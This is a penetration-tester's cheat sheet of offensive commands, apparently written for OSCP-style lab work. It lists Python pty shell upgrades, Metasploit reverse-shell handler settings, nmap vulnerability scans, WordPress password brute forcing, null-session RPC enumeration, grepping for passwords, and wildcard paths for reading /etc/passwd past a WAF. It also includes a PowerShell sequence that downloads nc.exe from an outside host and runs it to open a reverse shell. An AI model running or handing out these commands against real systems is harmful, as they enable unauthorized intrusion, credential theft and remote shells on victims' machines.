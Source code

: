# python command for bash 

python3 -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/sh")'

# spawn nicer shell 

/usr/bin/script -qc /bin/bash /dev/null

# to get nobody removed in NFS share

sudo mount -t nfs -o nolock,nfsvers=3 10.1.1.72:/home home/
sudo mount -t cifs //< IP >/< SHARE > /tmp/share


# msf meterpreter shell listener

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set payload windows/shell/reverse_tcp


# Search 
grep -rn './' -ie 'whatever' -B 2 -A 2
grep -rn './' -ie 'password' -B 2 -A 2


# nmap

Scan using default safe scripts 		:	nmap -sV -sC 

Scan 100 most common ports (Fast): 		:	nmap -F 
Scan using TCP connect 					:	nmap -sT 
Scan using TCP SYN scan (default) 		:	nmap -sS 
Scan UDP ports 							:	nmap -sU -p 123,161,162 
Scan selected ports - ignore discovery	:	nmap -Pn -F 

Scan with a set of scripts (SMB)		:	nmap -sV --script=smb* 
Scan with a set of scripts (FTP)		:	nmap -sV --script=ftp* 

Scan with a set of scripts (smb os)		:	nmap --script smb-os-discovery.nse -p445 

recon script VULN 						:	nmap -Pn -p445 --script vuln -oN reconop.txt 


# SMB as used for msf for beloved 

set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1

# SMB as cmd

smbclient //1.1.1.4/ < folder name >

# smbmap
while read i; do smbmap -H $i 2>/dev/null; done < < Target IP File > | grep -v Finding | grep -v Authentication


# where command in win to search type of files
where /r c:\ proof.txt


# Wordpress brute force

wpscan --url http://10.11.1.251/wp --rua -P /usr/share/wordlists/rockyou.txt


# shell from powershell 

first upload nc

PS C:~> iwr http://1.1.1.9:7331/nc.exe -outf .\cute.exe
PS C:~> start-process -filepath .\cute.exe -argumentlist "1.1.1.9 4447 -e cmd.exe" -nonewwindow


# Dropbox links

ln -s < path of dropbox folder >  < link name > ~/data

ln -s /mnt/hgfs/2020-Pwk/ ~/data


# file browser for jsp
java -jar file-browser.jar

# gcc
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc -Wl,--hash-style=both -o exp

# rpc commands

rpcclient -U "" -N 10.10.10.161

> enumdomusers
> enumdomgroups
> querygroup 0x200  // query groupname
> querygroupmem 0x200 // query group members
> queryuser 0x1f4 //query users



# /etc/passwd WAF restriction? Use these
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?

# paths for .bashrc

export PATH=$PATH:~/data/tools/
export PATH=$PATH:~/data/exploits/
export PATH=$PATH:/home/kali/.local/bin/
export PATH=$PATH:~/data/myscrs/

export HISTCONTROL=ignoreboth:erasedups
